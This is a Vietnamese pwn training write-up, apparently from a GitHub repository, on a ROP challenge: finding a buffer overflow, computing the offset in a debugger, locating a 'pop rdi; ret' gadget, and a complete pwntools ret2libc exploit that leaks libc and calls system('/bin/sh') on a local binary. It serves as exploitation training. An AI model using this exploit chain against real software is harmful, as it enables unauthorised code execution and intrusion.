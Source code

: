 ![image](https://github.com/TooBunReal/pwn_training/assets/89735990/d52c8a9f-7c7d-4914-9f61-1f3555d67ad7)# pwn_training
## ROP

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/d6ae2cd6-0782-4e26-b492-b8c6534e6084)

-Đầu tiên mình sẽ vài IDA để check file

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/8613bfa9-f5d4-4973-8bf3-0f8110538719)

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/e9c0c132-04fe-4088-9f06-3b5ec371a97a)

-Ở đây ta thấy chương trình sẽ setbuf nhận hàm một chuỗi input do người dùng nhập vào.
-Tuy nhiên ta có thể thấy chương trình đang sử dụng printf và scanf, rất có thể sẽ bị bufferoverflow.

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/a45b6087-5ab3-4799-a203-d447cb465acc)

-Hàm Vuld là một hàm để nhận input đầu vào.
-Giờ ta sẽ debug thử chương trình.

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/e0416e80-c734-4f0c-b7b3-171bf3f7e39a)

- ta thấy rdi sẽ chứa địa chỉ của buffer.

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/87484473-f798-4cc3-ab59-e391184a10fc)

- ở đây ta sẽ có được giá trị của vararg: 0x7fffffffd5f0

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/7618cf6a-27cb-43dd-862c-e62f5b8543ee)

- sau khi check info fame ta thấy được rip at 0x7fffffffd618.
- trừ 2 giá trị cho nhau ta biết được buffer là 0x28.
- điều này có nghĩa 40 byte đầu là 40 bytes rác ta sẽ fill hết 40 bytes xong sau đó anh truyền payload cái rop của mình vào là được.

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/6fcc5868-45bf-4af3-a9f5-42049507c2af)


- mình sẽ sử dùng tool ROPgadget để lấy gadget pop rdi; ret trong libc.
  ```ROPgadget --binary /usr/lib/libc.so.6 | grep "pop rdi ; ret"```
- tới đây mình tiến hành tìm các giá trị cần thiết cho payload.
- và đây là payload hoàn chỉnh.

```py
from pwn import *

e = context.binary = ELF("./rop")
r = e.process()
libc = e.libc

r.recvuntil(b'Here is your gift: ')
libc.address = int(r.recvline()[:-1], 16) - libc.sym['puts']

print(hex(libc.address))

rdi = libc.address + 0x000000000002a3e5  # pop rdi ; ret
bin_sh = next(libc.search(b'/bin/sh'))  # rdi -> "/bin/sh"
ret = rdi + 1  # ret ( Make rsp % 0x10 == 0)
system = libc.sym['system']

pl = b'A' * 0x28  # Fill the buffer
pl += p64(rdi) + p64(bin_sh) + p64(ret) + p64(system)

r.sendline(pl)
r.interactive()

```

![image](https://github.com/TooBunReal/pwn_training/assets/89735990/ccf68fc7-34a4-4ad6-8001-3691bbb33191)


